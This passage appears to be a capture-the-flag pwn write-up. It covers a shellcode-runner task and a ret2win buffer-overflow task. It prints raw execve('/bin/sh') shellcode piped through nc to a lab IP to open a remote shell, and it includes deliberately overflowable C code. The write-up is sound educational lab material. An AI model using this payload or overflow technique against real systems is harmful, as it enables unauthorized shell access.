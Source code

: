 Code:

```c
int main(){
    setup();
    banner();
    char *buf[128];   

    puts("\nGive me your shell, and I will execute it: ");
    read(0,buf,sizeof(buf));
    puts("\nExecuting Spell...\n");

    ( ( void (*) () ) buf) ();

}
```

This is whats called a shellcode runner, and isn't really a challenge (assuming you know what shellcode is). I used a simple shell code from here on shellstorm: https://shell-storm.org/shellcode/files/shellcode-806.html

```bash
{ echo -e "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"; cat; } | nc 10.10.88.29 9005
```

Note the use of `cat` here, for the first time. We are opening a shell, and we want to copy the stdout of that shell to the stdout of our interface. Cat does this: it will read output from the shell and echo it back to us; also cat has the notable feature that when run without arguments, it *stays* open (run it youself if you like), meaning this will keep the shell alive and talking back.

## Task 6

Code:

```c
int win(){

    system("/bin/sh");
}

void vuln(){
    char *buf[0x20];
    puts("Return to where? : ");
    read(0, buf, 0x200);
    puts("\nok, let's go!\n");
}

int main(){
    setup();
    vuln();
}
```

This is called a "ret2win" in pwn circles, and basically requires you to override the return address saved on the stack (from the call to vuln, but it would also have worked if you were just in main as main itself is called by other code) so that when the function returns, instead of going back to its calling location it moves to this 'win' function (literally called 'win' here).

